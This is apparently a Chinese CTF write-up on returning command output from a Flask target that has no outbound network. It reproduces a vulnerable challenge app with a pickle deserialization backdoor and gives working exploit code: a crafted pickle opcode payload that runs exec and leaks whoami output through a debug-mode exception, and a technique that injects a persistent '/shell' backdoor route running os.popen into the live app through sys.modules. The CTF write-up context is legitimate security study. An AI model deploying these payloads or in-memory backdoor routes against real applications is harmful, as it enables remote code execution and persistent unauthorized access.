 ```yaml
---
title: flask不出网回显方式
tags:
  - python
  - flask
---
```


# flask不出网回显方式
## 前言
研究这个问题主要是打比赛的时候遇到了，题目内容大概是这样的
```python
# app.py
from flask import Flask, request, session, render_template_string, url_for, redirect
import pickle
import io
import sys
import base64
import random
import subprocess
from config import notadmin

app = Flask(__name__)


class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module in ['config'] and "__" not in name:
            return getattr(sys.modules[module], name)
        raise pickle.UnpicklingError("'%s.%s' not allowed" % (module, name))


def restricted_loads(s):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(s)).load()


@app.route('/')
def index():
    info = request.args.get('name', '')
    if info is not '':
        x = base64.b64decode(info)
        User = restricted_loads(x)
    return render_template_string('Hello')



if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=True, port=5000)
```
```python
# config.py
notadmin = {"admin": "no"}


def backdoor(cmd):
    if notadmin["admin"] == "yes":
        s = ''.join(cmd)
        eval(s)

```
可以看出来是个简单的pickle反序列化，这不是本次的重点，重点是这道题在eval后如何回显，最简单的方式想到的是反弹shell，但是经过测试发现目标机器并不出网，所以我们需要寻找其他的方式去让我们的命令回显

## debug模式下利用报错
众所周知，在flask中如果开启了debug模式，报错是会显示详细信息的，比赛中debug模式通常考点是构造pin码，但是我们这里想到，可以通过手动控制报错的方式来让我们的命令回显。

简单地构造exp，这里需要注意的是eval并不能执行python语句，所以我们需要利用eval去调用exec来实现手动抛出报错
```python
from base64 import b64encode
from urllib.parse import quote


def base64_encode(s: str, encoding='utf-8') -> str:
    return b64encode(s.encode()).decode(encoding=encoding)


exc = "raise Exception(__import__('os').popen('whoami').read())"
exc = base64_encode(exc).encode()

opcode = b'''cconfig
notadmin
(S'admin'
S'yes'
u0(cconfig
backdoor
(S'exec(__import__("base64").b64decode(b"%s"))'
lo.''' % (exc)

print(quote(b64encode(opcode).decode()))
```

![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211024113458.png)

可以看到我们成功通过Exception去拿到了回显

## 非debug模式下利用内存马
这里了参考文章: [iceyhexman/flask_memory_shell](https://github.com/iceyhexman/flask_memory_shell)
这篇文章是ssti下如何利用flask去添加一个后门路由，我们可以参考他的想法来尝试获取app添加后门路由，这里一个难点是如何拿到正在运行的app

### 失败的尝试: 直接import模块获取app
一开始想到的方法是直接`import app.py`来获取app，但是事实证明此app非彼app，添加了路由但是并不能访问到，应该是一个全新的app
### 成功的尝试: sys.modules
> sys.modules是一个全局字典，该字典是python启动后就加载在内存中。每当程序员导入新的模块，sys.modules都将记录这些模块。字典sys.modules对于加载模块起到了缓冲的作用。当某个模块第一次导入，字典sys.modules将自动记录该模块。当第二次再导入该模块时，python会直接到字典中查找，从而加快了程序运行的速度。

所以我们可以通过sys.modules拿到当前已经导入的模块，并且获取模块中的属性，由于我们最终的eval是在app.py中执行的，所以我们可以通过`sys.modules['__main__']`来获取当前的模块，我们写个简单的测试来看看上面的app与实际的app是否相同
```python
import sys
import app
app1 = sys.modules['__main__'].__dict__['app']
app2 = app.app
print(id(app1))
print(id(app2))
```

![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211024114600.png)

可以看到app的id并不相同，所以他们并非相同的app

这里我们尝试直接添加后门路由，会发现存在报错
```python
import sys
import os
sys.modules['__main__'].__dict__['app'].add_url_rule('/shell','shell',lambda :os.popen('dir').read())
```

![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211024114744.png)

这个报错是由于我们在第一个请求处理后调用了设置函数(add_url_rule)，此报错只会在debug模式下触发，可以参考使用了Flask框架的工具的issue:
- https://github.com/alexmclarty/mirror/issues/6
- https://github.com/pallets/flask/issues/2616

所以我们需要在非debug模式下才能成功添加后门路由(又或者我们直接设置debug=False来解决这个问题)
```python
import sys
sys.modules['__main__'].__dict__['app'].debug=False
sys.modules['__main__'].__dict__['app'].add_url_rule('/shell','shell',lambda :__import__('os').popen('dir').read())
```

![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211024115906.png)